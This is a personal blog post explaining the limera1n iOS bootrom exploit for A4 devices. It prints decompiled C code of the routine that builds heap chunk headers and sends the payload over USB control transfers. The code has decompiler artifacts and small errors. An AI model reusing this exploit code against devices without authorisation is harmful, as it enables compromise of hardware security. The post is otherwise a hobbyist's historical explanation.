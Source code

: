 ```yaml
---
layout: post
title: "What is limera1n?"
description: "Devices with the limera1n vulnerability are the most fun devices to play with."
category: articles
tags: [limera1n, iphone 4, info]
image:
  feature: "limera1npaper.png"
---
```


## limera1n
limera1n is a bootrom exploit found by `geohot` that works on all A4 and below devices. The last devices being the iPhone 4 GSM (1,1)(1,3) and the iPhone 4 CDMA (3,3). It is the last public bootrom exploit to be released to this day. A bootrom exploit is an exploit that can be run on a device with any iOS version. Basically meaning the device can be jailbroken for life. The reason I am talking about limera1n is because it will be mentioned often in my posts. I like to mess around with this exploit a lot and find out all of the cool stuff I can do with it. It has been made into a tethered jailbreak ([Mac](http://limera1n.com/limera1n.zip), [Windows](http://limera1n.com/limera1n.exe)) by geohot which you can untether using the `0x24000 Segment Overflow` exploit or the `Packet Filter Kernel Exploit`. 


## Code Executed
{% highlight c %}
signed int __cdecl upload_exploit() {
int device_type;
signed int payload_address;
int free_address;
int deviceerror;
char *chunk_headers_ptr;
unsigned int sent_counter;
//int v6;
signed int result; 
//signed int v8;
int recv_error_code;
signed int payload_address2;
signed int padding_size;
char payload;
char chunk_headers;
//int v14;
//v14 = *MK_FP(__GS__, 20);
device_type = *(_DWORD *)(device + 16);

if ( device_type == 8930 ) {
padding_size = 0x2A800;
payload_address = 0x8402B001;
free_address = 0x8403BF9C;
} else {
payload_address = 0x84023001;
padding_size = 0x22800;
// free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
if(device_type == 8920) free_address = 0x84033FA4;
else free_address = 84033F98;
}

memset(&payload, 0, 0x800);
memcpy(&payload, exploit, 0x230);

if (libpois0n_debug) {
//v8 = payload_address;
fprintf(stderr, 1, "Resetting device counters\n");
//payload_address = v8;
}

payload_address2 = payload_address;
deviceerror = irecv_reset_counters(client);

if ( deviceerror ) {
irecv_strerror(deviceerror);
fprintf(stderr, 1, &aCannotFindS[12]);
result = -1;
} else {
memset(&chunk_headers, 0xCC, 0x800);
chunk_headers_ptr = &chunk_headers;

do {
*(_DWORD *)chunk_headers_ptr = 1029;       
*((_DWORD *)chunk_headers_ptr + 1) = 257;
*((_DWORD *)chunk_headers_ptr + 2) = payload_address2;  
*((_DWORD *)chunk_headers_ptr + 3) = free_address;
chunk_headers_ptr += 64;
} while ((int *)chunk_headers_ptr != &v14);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending chunk headers\n");

sent_counter = 0;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
memset(&chunk_headers, 0xCC, 0x800);

do {
sent_counter += 0x800;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
} while (sent_counter < padding_size);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending exploit payload\n");

irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending fake data\n");

memset(&chunk_headers, 0xBB, 0x800);
irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Executing exploit\n");

irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
irecv_reset(client);
irecv_finish_transfer(client);

if (libpois0n_debug) {
fprintf(stderr, 1, "Exploit sent\n");
if (libpois0n_debug)
fprintf(stderr, 1, "Reconnecting to device\n");
}

client = (void *)irecv_reconnect(client, 2);

if (client) {
result = 0;
} else {
if (libpois0n_debug) {
recv_error_code = irecv_strerror(0);
fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
}
fprintf(stderr, 1, "Unable to reconnect\n");
result = -1;
}
}

// compiler stack check
//if (*MK_FP(__GS__, 20) != v14)
//    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);

return result;
}
{% endhighlight %}

## limera1n For Newer Devices
As of now there are no *public* bootrom exploits for any newer devices. [iH8sn0w](https://twitter.com/iH8sn0w/) has found a bootrom exploit for A5 and A5X devices, but has not shared it publicly. He has not done this because he says that with just a bit of tweaking he can make it work on newer devices (A5+). If he were to release it anytime soon, Apple is in a position to release a newer model of a device without any problem, effectivly patching it on half of the devices the bootrom exploit would work on.

-> -dayt0n <-
